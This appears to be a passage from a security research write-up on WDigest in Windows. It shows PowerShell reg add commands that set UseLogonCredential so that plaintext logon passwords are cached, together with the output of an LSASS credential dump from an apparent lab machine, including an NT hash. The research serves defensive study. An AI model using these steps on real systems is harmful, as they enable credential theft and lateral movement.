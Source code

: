 Even though the command output assured me it completed successfully, the change was immediately rolled back.

```ps1
PS C:\Windows\system32> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
The operation completed successfully.
PS C:\Windows\system32> reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
    Debuglevel    REG_DWORD    0x0
    Negotiate    REG_DWORD    0x0
    UTF8HTTP    REG_DWORD    0x1
    UTF8SASL    REG_DWORD    0x1
    DigestEncryptionAlgorithms    REG_SZ    3des,rc4
```

We'll log off and on the computer. We dump LSASS at this point to see if we find some WDigest plaintext passwords.

```
session_id 1
username User
domainname WINDEV2210EVAL
logon_server WINDEV2210EVAL
...
	== MSV ==
		Username: User
		Domain: WINDEV2210EVAL
		LM: NA
		NT: 2cd5cd4e187b8b4147a1dddb881bba2d
		SHA1: 79263b3084f3dfec31ea8d46d7870a97fce5bc4c
		DPAPI: NA
	== WDIGEST [115e65]==
		username User
		domainname WINDEV2210EVAL
		password None
		password (hex)
	== Kerberos ==
		Username: User
		Domain: WINDEV2210EVAL
	== WDIGEST [115e65]==
		username User
		domainname WINDEV2210EVAL
		password None
		password (hex)
...
```

As expected, no WDigest passwords. Now we try to set `UseLogonCredential` to 2.

```ps1
PS C:\Windows\system32> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 2
The operation completed successfully.
PS C:\Windows\system32> reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
    Debuglevel    REG_DWORD    0x0
    Negotiate    REG_DWORD    0x0
    UTF8HTTP    REG_DWORD    0x1
    UTF8SASL    REG_DWORD    0x1
    DigestEncryptionAlgorithms    REG_SZ    3des,rc4
    UseLogonCredential    REG_DWORD    0x2

PS C:\Windows\system32>
```